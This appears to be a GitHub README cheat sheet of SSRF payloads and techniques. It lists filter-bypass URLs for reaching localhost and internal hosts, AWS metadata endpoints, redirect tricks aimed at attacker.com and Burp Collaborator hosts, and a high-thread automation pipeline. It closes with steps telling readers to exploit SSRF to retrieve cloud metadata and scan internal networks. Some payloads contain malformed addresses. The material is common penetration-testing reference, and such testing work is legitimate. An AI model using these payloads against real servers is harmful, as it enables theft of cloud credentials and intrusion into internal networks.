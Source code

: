 إليك تنظيم النقاط بشكل نصي عادي ومنظم:

---

### **SSRF (Server-Side Request Forgery) Payloads & Techniques**

#### **1. SSRF Payloads to Bypass Firewall**
1. **Bypass SSRF with CIDR**:
   ```bash
   http://127.127.127.127
   ```
2. **Bypass using Rare Address**:
   ```bash
   http://127.1
   ```
3. **Bypass using Tricks Combination**:
   ```bash
   http://1.1.1.802.2.2.2#03.3.3.3/
   urllib:3.3.3.3
   ```
4. **Bypass against a Weak Parser**:
   ```bash
   http://127.1.1.180@127.2.2.2:80/
   ```
5. **Bypass Localhost with `[::]`**:
   ```bash
   http://[::]:80/
   http://0000::1:80/
   ```

#### **2. What SSRF Allows**
- **Access Services on Loopback Interface**:
  ```bash
  Access services running on the loopback interface.
  ```
- **Scan Internal Network**:
  ```bash
  Scan and interact with internal network services.
  ```
- **Read Local Files**:
  ```bash
  Use `file://` protocol handler to read local files.
  ```
- **Lateral Movement**:
  ```bash
  Move laterally within the internal environment.
  ```

#### **3. Finding SSRF**
- **External Resource Access**:
  ```bash
  Test if the application allows loading external resources (e.g., profile images).
  ```
- **Port Scanning**:
  ```bash
  Use Burp Suite Intruder to scan ports by manipulating URLs.
  ```
- **Internal IP Scanning**:
  ```bash
  Scan private IP ranges like 192.168.x.x to discover alive hosts.

#### **4. AWS Metadata Retrieval**
- **AWS Metadata Endpoints**:
  ```bash
  http://169.254.169.254/computeMetadata/v1
  http://169.254.169.254/latest/meta-data
  ```

#### **5. URL Manipulation**
- **Burp Collaborator**:
  ```bash
  If the response has a link parameter, try sending it with your Burp Collaborator.
  ```
- **Open Redirect**:
  ```bash
  https://www.hahwul.com/phoenix/ssrf-open-redirect/
  ```

#### **6. Advanced SSRF Techniques**
- **Host Header Manipulation**:
  ```bash
  curl ip -H 'HOST: localhost'
  ```
- **Subdomain Manipulation**:
  ```bash
  target.com.(aydomain has IP 127.0.0.1)
  ```
- **Special Characters**:
  ```bash
  trarget.\com/%09/myburpcollab
  trarget.\com//myburpcollab
  trarget.\com\\myburpcollab
  target.\com/%0d/myburpcollab
  redirect_uri=target.\com&redirect_uri=attacker\.com
  redirect_uri=target.\com%40myburpcollab.\com
  ```
- **URL Parser Logic**:
  ```bash
  http://evil§google.com
  http://127.1:80@127.2.2.280/
  http://127.1:80@@127.2.2.280/
  0://evil.com:80http://google.com:80/
  ```
- **Unicode Normalization**:
  ```bash
  http://gооgle.com
  http://gⓞⓞgle.cⓞm
  ```
- **Address Encoding**:
  ```bash
  http://0177.0.0.1           # Octal Representation
  http://2130706433/          # Decimal Representation
  http://0x7f.0x0.0x0.0x1/    # Hex Representation
  http://0177.0x0.0x0.0x1/    # Mixed Representation
  ```
- **Localhost Representation**:
  ```bash
  http://0/
  http://127.1/
  http://0.0.0.0/
  http://127.127.127.127/
  ```

#### **7. IPv4 & IPv6 Variations**
- **IPv4 Standard Format**:
  ```bash
  http://127.0.0.1/
  ```
- **IPv4 Shortened Formats**:
  ```bash
  http://127.1/
  http://127.0.1/
  ```
- **IPv4 Decimal Representation**:
  ```bash
  http://2130706433/
  ```
- **IPv6 Representations**:
  ```bash
  http://[::1]/               # Standard IPv6 localhost
  http://[::ffff:127.0.0.1]/  # Mixed IPv6/IPv4
  ```
- **Localhost Name Variants**:
  ```bash
  http://localhost/
  http://localhost.localdomain/
  http://127.in-addr.arpa/
  ```
- **Empty Host**:
  ```bash
  http:///
  http://0/
  ```
- **Loopback Address Variants**:
  ```bash
  http://127.0.0.254/
  http://10.0.0.1/            # مثال لاختبار خاص بشبكات داخلية
  ```
- **Unicode and Punycode Normalization**:
  ```bash
  http://locaⅼhost/          # "l" مكتوب بـ Unicode مختلف
  http://lоcalhost/          # "o" مكتوب بشكل مختلف
  ```
- **Port Variations**:
  ```bash
  http://127.0.0.1:80/
  http://127.0.0.1:443/
  http://localhost:8080/
  http://localhost:3000/
  ```

#### **8. Blind SSRF Chains**
- **GitHub Resource**:
  ```bash
  https://github.com/assetnote/blind-ssrf-chains
  ```

#### **9. Automation Tools**
- **Findomain & Gau**:
  ```bash
  findomain -t DOMAIN -q | httpx -silent -threads 1000 | gau | grep "=" | qsreplace your.burpcollaborator.net
  ```

---

### **How to Use This Information**
1. **Payload Testing**:
   - Use the provided payloads to test for SSRF vulnerabilities.
2. **Internal Network Scanning**:
   - Scan internal networks and services using SSRF.
3. **AWS Metadata Retrieval**:
   - Exploit SSRF to retrieve AWS metadata.
4. **URL Manipulation**:
   - Manipulate URLs to bypass filters and access restricted resources.
5. **Automation**:
   - Use tools like Findomain and Gau to automate SSRF discovery.

---

### **To fuzz for inoternal Ports**
- https://github.com/a7madn1/Fuzzing

---

- https://portswigger.net/web-security/ssrf/url-validation-bypass-cheat-sheet#id=8abff2b134596d1a84408e32730f1cc9c37cf68b
- https://portswigger.net/research/bypassing-character-blocklists-with-unicode-overflows
- https://book.hacktricks.wiki/en/pentesting-web/ssrf-server-side-request-forgery/index.html
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/README.md
- https://github.com/akincibor/SSRFexploit
- https://gist.github.com/jhaddix/78cece26c91c6263653f31ba453e273b
- https://github.com/cujanovic/SSRF-Testing/blob/master/cloud-metadata.txt
- https://github.com/MightyPirates/OpenComputers/security/advisories/GHSA-vvfj-xh7c-j2cm
- https://github.com/cujanovic/SSRF-Testing

